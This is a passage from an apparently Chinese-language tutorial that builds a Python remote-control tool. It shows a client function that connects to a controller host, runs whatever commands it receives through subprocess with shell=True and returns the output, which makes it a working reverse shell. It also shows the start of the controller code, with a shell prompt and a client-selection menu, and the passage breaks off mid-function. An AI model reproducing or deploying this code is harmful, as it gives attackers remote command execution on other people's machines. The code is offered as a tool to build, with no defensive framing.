 ### 2\. 被控端（Client）

被控端需要实现连接到控制端、执行控制端发送过来的命令并将执行命令后的结果发送给控制端。与控制端相比被控端要简单的多，下面我们就用一个函数来实现上面我们提到的功能，代码如下：

```py
def connectHost(ht,pt): 
    sock = socket.socket(socket.AF_INET, socket.SOCK_STREAM)    #创建 socket 对象
    sock.connect((ht,int(pt)))  #主机的指定端口
    while True:
        data = sock.recv(1024)  #接收命令
        data = data.decode('utf-8') #对命令解码
        #执行命令
        comRst = subprocess.Popen(data,shell=True, stdout=subprocess.PIPE, stderr=subprocess.PIPE, stdin=subprocess.PIPE)
        #获取命令执行结果
        m_stdout, m_stderr = comRst.communicate()
        #将执行命令结果编码后发送给控制端
        sock.send(m_stdout.decode(sys.getfilesystemencoding()).encode('utf-8'))
        time.sleep(1)
    sock.close() 
```

通过这一个函数就实现了被控端的所有功能，是不是很简单？这个函数的核心其实就是 subprocess.Popen()这个函数，这里我简单介绍一下。subprocess.Popen()可以实现在一个新的进程中启动一个子程序，第一个参数就是子程序的名字，shell=True 则是说明程序在 Shell 中执行。至于 stdout、stderr、stdin 的值都是 subprocess.PIPE，则表示用管道的形式与子进程交互。还有一个需要注意的地方就是在给控制端发送命令执行结果的时候，这里先将结果用本地系统编码的方式进行解码，然后又用`utf-8`进行编码，以避免被控端编码不是`utf-8`时，控制端接收到的结果显示乱码。

至此我们就将控制端和被控端都实现完了，代码很容易理解，代码量也不多。下面我们来整合全部代码！

## 四、完整代码

### 1.控制端

```py
#!/usr/bin/env python3
# -*- coding: utf-8 -*-
import socket
import threading

clientList = []             #连接的客户端列表
curClient = None            #当前的客户端
quitThread = False          #是否退出线程
lock = threading.Lock()

def shell_ctrl(socket,addr):
    while True:
        com = input(str(addr[0]) + ':~#')
        if com == '!ch':
            select_client()
            return
        if com == '!q':
            quitThread = True
            print('-----------------------* Connection has ended *--------------------------')
            exit(0)
        socket.send(com.encode('utf-8'))
        data = socket.recv(1024)
        print(data.decode('utf-8'))

def select_client():
    global clientList
    global curClient
    print('--------------* The current is connected to the client: *----------------')
    for i in range(len(clientList)):
        print('[%i]-> %s' % (i, str(clientList[i][1][0])))
    print('Please select a client!')
```